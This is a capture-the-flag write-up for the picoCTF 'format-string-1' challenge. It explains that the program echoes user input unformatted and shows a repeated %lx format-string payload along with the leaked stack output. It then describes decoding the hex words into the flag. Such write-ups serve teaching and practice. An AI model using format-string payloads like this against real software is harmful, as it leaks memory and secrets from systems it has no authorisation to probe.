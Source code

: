 # format-string-1
picoCTF Link: [https://play.picoctf.org/practice/challenge/434](https://play.picoctf.org/practice/challenge/434)

## About

```
Description:
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

Hints:
1. https://lettieri.iet.unipi.it/hacking/format-strings.pdf
2. Is this a 32-bit or 64-bit binary?
```

## Solution

When I looked at the code, I saw the flag was stored on the stack. The program let us write anything and then echo's the same string, without any formatting protections. Which let us print stuff from the stack using `%p` or `%lx`.

```
Give me your order and I'll read it back to you:
%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx
Here's your order: 402118,0,71cc85de2a00,0,1576880,a347834,7ffe56044d70,71cc85bd3e60,71cc85df84d0,1,7ffe56044e40,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,65355f673431665f,7d346263623736,7,71cc85dfa8d8,2300000007,206e693374307250,a336c797453,9
Bye!
```

`7b4654436f636970,355f31346d316e34,3478345f33317937,65355f673431665f,7d346263623736` looked like something printable, so I just tried to put in CyberChef and I was right!

I had only had to swap endianness with word length of 8 bytes, then from hex.
